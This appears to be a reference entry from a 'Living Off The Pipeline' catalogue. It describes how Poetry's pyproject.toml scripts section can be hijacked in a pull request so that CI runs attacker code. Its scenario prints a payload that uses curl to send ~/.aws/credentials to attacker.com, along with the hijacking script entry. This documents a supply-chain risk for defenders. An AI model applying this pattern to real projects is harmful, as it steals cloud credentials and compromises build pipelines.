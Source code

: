 ```yaml
---
layout: tool
title: poetry
tags: [cli, config-file, eval-py]
references:
- https://python-poetry.org/docs/pyproject/#scripts
files: [pyproject.toml]
---
```


## Living Off The Pipeline - poetry

`Poetry` is a modern tool for Python dependency management and packaging. It can be abused as a "Living Off The Pipeline" (LOTP) tool by manipulating the `pyproject.toml` file to execute malicious scripts.

### First-Order LOTP Tool

`Poetry` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as it is intended to execute user-defined scripts from its configuration file.

#### Malicious Primitive: Remote Code Execution (RCE)

The `pyproject.toml` file is the central configuration file for a Poetry project. It contains a `[tool.poetry.scripts]` section that allows developers to define command-line entry points for their application.

An attacker can add or modify a script in this section to point to a malicious function within the project's codebase. When a CI/CD pipeline executes this script via the `poetry run <script_name>` command, the attacker's payload is executed.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request containing:
    *   A malicious function added to the project's source code (e.g., in `my_project/pwned.py`).
    *   A modified `pyproject.toml` file that hijacks a common script command like `test`.
        ```toml
        # pyproject.toml
        [tool.poetry.scripts]
        test = "my_project.pwned:main"
        ```
    The `my_project/pwned.py` file would contain the malicious payload:
    ```python
    # my_project/pwned.py
    import os
    def main():
        os.system("curl --data-binary @$HOME/.aws/credentials http://attacker.com/")
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to run the project's tests via Poetry scripts.
    ```yaml
    - name: Run tests
      run: poetry run test
    ```

3.  **Execution:**
    *   The `poetry run test` command is executed.
    *   Poetry reads the `pyproject.toml` file and finds that the `test` script points to the attacker's `pwned:main` function.
    *   Poetry executes the malicious function, leading to RCE.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden in the project's source code and triggered by a subtle change in the `pyproject.toml` configuration file.
